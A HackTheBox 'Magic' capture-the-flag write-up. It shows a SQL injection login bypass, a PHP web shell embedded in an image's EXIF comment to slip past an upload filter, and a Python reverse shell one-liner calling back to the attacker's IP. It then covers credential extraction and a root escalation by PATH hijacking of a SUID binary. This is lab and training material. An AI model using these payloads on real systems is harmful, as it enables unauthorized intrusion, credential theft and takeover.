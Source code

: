 ```yaml
---
title: HacktheBox Magic Writeup.
published: true
---
```


> ![](https://i.ibb.co/t32ZVWn/Screenshot-from-2020-08-21-22-51-38.png)

# []()Methodology

* Nmap scan
* SQL injection lead to Auth Bypass
* File upload && filter Bypass
* Privilege Escalation 

# []() Nmap Scan

> as always, i did nmap scan to find out which servicecs was running in this machine, i found some important ports like **80 for Apache server and 22 for ssh.**

> nmap -sC -sV -Pn 10.10.10.185 -oA scan.txt 

```ruby

Nmap scan report for 10.10.10.185
Host is up (0.91s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|_  256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

### []()Checking the Web-Page

* The webpage was very simple, it had a login page which you can get from the bottom of the page.

> ![](https://i.ibb.co/5G1yhtz/webpage.png)

> here's the login the page.
>
> ![](https://i.ibb.co/0c8TLbq/loginpage.png)

### []()SQL Injection

* Since we don’t know the username or password, let’s try SQL injection in both fields. The idea here is that the PHP code in the back may look something like this:

```ruby

SELECT * FROM login WHERE username='$username' AND password='$password'

```

* If not properly sanitized, since we control the $username and $password variables, we could get the query to look like this:

```ruby

SELECT * FROM login WHERE username='' OR 1=1;' AND password='$password'

```

> To do so, we can supply **'or 1=1 --** as the username and something arbitrary. **foo as the password.**

> ![](https://i.ibb.co/FnnPTY0/bypass.png)

* and here we go, i'm in.

> ![](https://i.ibb.co/h1qRnpd/done.png)

### []() File Upload with filter Bypass && Reverse shell@Magic

> when i tried to upload php file to give me **reverse shell** it's gave me an error, let's see it.

> ![](https://i.ibb.co/Mgz9Mzg/filter.png)

* so we can upload images only. let's do some magic with exiftool.

> i will upload my reverse shell as a comment in image file. i'll inject it with [exiftool](https://github.com/exiftool/exiftool)

> PHP code: **<?php echo "<pre>"; system($_GET[cmd]); ?>**

> exiftool -Comment='<?php echo "<pre>"; system($_GET[cmd]); ?>' hello.jpg
>
> ![](https://i.ibb.co/LrmxJPG/test.png)

* nice, now let's change the name of the image to **hello.php.jpg**

* let's upload the photo now.

> ![](https://i.ibb.co/cgyvRbK/good.png)

* uploaded successfully.

* now let's navigate to : **http://10.10.10.185/images/uploads/test.php.jpg?cmd=id**

> ![](https://i.ibb.co/GFDFHYG/rev.png)

* done!, let's get a reverse shell now.

> open this: **10.10.10.185/images/uploads/test.php.jpg?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.xx.xx%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27**

* and start your nc listener.

> ![](https://i.ibb.co/8XgHXKB/shell.png)

# []()Privilege Escalation >> theseus

> let's navigate to /var/www/Magic and you will found db.php5 and this file contain the Database Credentials.

> ![](https://i.ibb.co/nD5L2cq/thesus.png)

* i tried this password to login as theseus but didn't work, so let's read another file.

* there is another file its name **dump.sql** and this file contain the password of **theseus**.

> ![](https://i.ibb.co/ynn3bLY/password.png)

* use this command : **mysqldump -utheseus -piamkingtheseus -A >> dump.sql** and this will give us the same result.

> ![](https://i.ibb.co/LxJdd7S/he.png)

* Username = **Theseus**
* Password = **Th3s3usW4sK1ng**

# []()Theseus@Magic 

* let's change the user from www-data to theses

```ruby

www-data@ubuntu:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ 

```
> user flag
> 
> ![](https://i.ibb.co/kQxjQSn/flag.png)

# []()Privilege Escalation >> root

* after got a shell as theseus i uploaded the LinEnum script to do some enumeration and i found juicy info.

> ![](https://i.ibb.co/12Mp6CV/inter.png)

* here's the interesting line

> ![](https://i.ibb.co/fYqQScM/dddd.png)

> This binary is not a standard / default one that is included with Linux distributions, but it will run as root regardless of who executes it. Furthermore, since we are in the users group, we do have execution rights.

* if you type **strings /bin/sysinfo**. you will see this output.

```ruby

popen() failed!
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h

```
> So we will use the PATH Variable for exploiting the Binary we will set the new PATH as /tmp dir. and then i will use the **cat** binary to read **root** files.

* You can use any binary you want among the four of them

* Hardware Info = lshw -short
* Disk Info = fdisk -l
* CPU Info = cat /proc/cpuinfo
* MEM Usage = free -h

* let's start

> first make a dir in tmp directory >> **mkdir /tmp/xdevo**

> then make any file like devo.txt >> **touch devo.txt** , this file will contain the output of the files which we will read.

> **echo -e '#!/bin/sh\ncat /root/root.txt >> /tmp/xdevo/devo.txt' > pwned**

> now make the **pwned** executable file >> **chmod +x pwned**

> export the PATH variable >> **export PATH=/tmp:$PATH** or we can use this command **PATH=.:$PATH /bin/sysinfo**.

* now we can read any file we want.


> root flag.
>
> ![](https://i.ibb.co/jJ2R44y/root.png)

* cheers!

 <script src="https://www.hackthebox.eu/badge/103789"></script>






